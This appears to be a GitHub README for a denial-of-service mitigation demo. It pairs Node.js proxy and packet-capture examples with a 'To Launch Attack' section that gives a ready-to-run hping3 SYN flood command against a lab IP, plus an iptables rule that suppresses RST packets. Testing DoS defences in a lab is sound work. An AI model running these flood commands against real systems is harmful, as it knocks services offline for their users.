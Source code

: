 DOS-Mitigation
==============
These examples come from https://github.com/nodejitsu/node-http-proxy and https://github.com/mranney/node_pcap

On a fresh git clone, cd to 'examples':
npm install http-proxy
npm install pcap

To run examples: 

node proxy-example.js

sudo node pcap-example.js


To Launch Attack: 

Install hping3:

sudo apt-get install hping3

sudo hping3 --flood -S -p 80 192.168.2.135

80 is the port of the target application.

Last argument is the IP address. 

Might need to run :

sudo iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.2.135 -j DROP

If you run wireshark you will see that no ACK will be sent back. 

For an instructional video: https://www.youtube.com/watch?v=Pzy-FwGF_OU

sudo hping3 --flood -S -p 80 192.168.2.135







